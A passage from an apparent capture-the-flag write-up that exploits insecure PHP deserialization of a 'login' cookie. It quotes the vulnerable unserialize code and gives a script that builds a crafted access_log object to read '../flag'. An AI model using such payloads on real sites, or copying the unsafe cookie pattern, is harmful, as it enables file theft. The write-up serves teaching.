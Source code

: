 ```php
}
```

If so, the server caches the object in a cookie for the next time, by serializing it:

```php
setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
```

And next time, it reads the value directly from this cache:

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

This is actually very problematic. Since we control the cookie, we can provide a different serialized object and the server would unserialize it for us.

For example, we can use the `access_log` object:

```php
<?php

class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}

$perm_res = new access_log("../flag");
$perm_res_encoded =  urlencode(base64_encode(serialize($perm_res)));
echo $perm_res_encoded;
echo "\n";

?>
```
